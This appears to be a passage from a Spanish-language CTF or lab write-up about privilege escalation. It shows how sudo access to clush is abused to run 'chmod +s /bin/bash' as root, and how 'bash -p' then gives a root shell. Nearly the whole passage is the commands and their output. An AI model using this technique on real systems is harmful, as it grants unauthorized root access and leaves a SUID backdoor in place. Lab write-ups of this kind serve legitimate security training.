 Para la escalada he visto este manual:

> https://linux.die.net/man/1/clush

```shell
sudo /usr/bin/clush -w node[11-14] -b
Enter 'quit' to leave this interactive mode
Working with nodes: node[11-14]
clush> !id
!id
LOCAL: uid=0(root) gid=0(root) groups=0(root)
clush> ! chmod +s /bin/bash
! chmod +s /bin/bash
clush> exit
```

Le damos SUID a la /bin/bash

```shell
ls -l /bin/bash
-rwsr-sr-x 1 root root 1265648 Mar 29  2024 /bin/bash
┌──[maci@8a2a93c39823]─[/var/www/subdominio]
└──╼ $ /bin/bash -p
/bin/bash -p
bash-5.2# whoami
whoami
root
```

Y somos root.